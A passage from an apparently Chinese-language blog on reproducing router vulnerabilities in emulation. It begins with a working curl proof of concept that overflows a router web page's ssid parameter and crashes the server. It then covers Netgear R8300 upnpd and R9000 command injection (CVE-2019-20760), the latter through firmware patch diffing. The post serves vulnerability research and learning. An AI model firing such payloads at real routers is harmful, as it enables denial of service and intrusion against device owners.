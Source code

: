 ```shell
curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/DHJSQKMAPYZXIIXB/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628162908.png)
重新刷新后，网站无法登录<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628163240.png)
模拟界面也出现`SIGSEGV`的字样<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628163615.png)

## 4. Netgear<br>
Netgear是一家国际知名的网络设备制造商，总部位于美国加利福尼亚州的圣何塞。该公司成立于1996年，主要专注于为家庭、企业和服务提供商制造和销售网络硬件。Netgear的产品线包括路由器、交换机、网络存储设备（NAS），以及其他网络设备和配件。<br>
对于家庭用户，Netgear提供各种无线路由器，这些路由器通常具有高性能和易于使用的特点。对于企业，Netgear提供更高级的网络解决方案，包括交换机和存储设备，以满足大规模网络的需求。<br>
Netgear还在网络安全方面提供一些产品和服务，包括VPN解决方案和网络防火墙。<br>
总的来说，Netgear是一家在网络硬件领域具有广泛影响力和知名度的公司。<br>
### Netgear R8300 upnpd 远程代码执行漏洞(PSV-2020-0211)<br>
好家伙，又是你`upnp`!<br>
在发送了崩溃`POC`后<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628205250.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628214138.png)

### Netgear R9000 命令注入漏洞（CVE-2019-20760）<br>
`Netgear`还是比较友好的，保留了所有以往的固件版本~<br>
通过它我们可以下载有漏洞的版本<br>
[https://www.downloads.netgear.com/files/GDC/R9000/R9000-V1.0.4.26.zip](https://www.downloads.netgear.com/files/GDC/R9000/R9000-V1.0.4.26.zip)<br>
以及修复了漏洞的版本<br>
[https://www.downloads.netgear.com/files/GDC/R9000/R9000-V1.0.4.28.zip](https://www.downloads.netgear.com/files/GDC/R9000/R9000-V1.0.4.28.zip)<br>
根据漏洞报告的提示，问题出自`web处理程序中`,其有一个明显的特征就是，文件中存在字符串`Referer`.**`Referer`字符串是一个HTTP头字段，通常在浏览器或其他HTTP客户端发出请求时发送给web服务器。它包含了用户是从哪个页面通过点击链接或提交表单来访问当前页面的信息。换句话说，它告诉服务器用户是从哪个URL来的。**<br>
使用`grep -r Referer . `，搜索结果如下：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628215324.png)
可以看出`uhttpd`是我们要找寻的目标<br>
使用`diaphora`来进行二进制比对操作,这也是一个强力的`diff`工具，和`bindiff`一致<br>
这个神秘的工具在`IDA7.7`上似乎有点问题，在`IDA7.6`上可以正常运行。怪<br>
主要在`partial matched`上寻找<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628222447.png)
右键，使用`diff pseudo code`来分辨<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/20230628223543.png)
可以发现，由`system`变成了`dni_system`，推测改动在这里产生。<br>
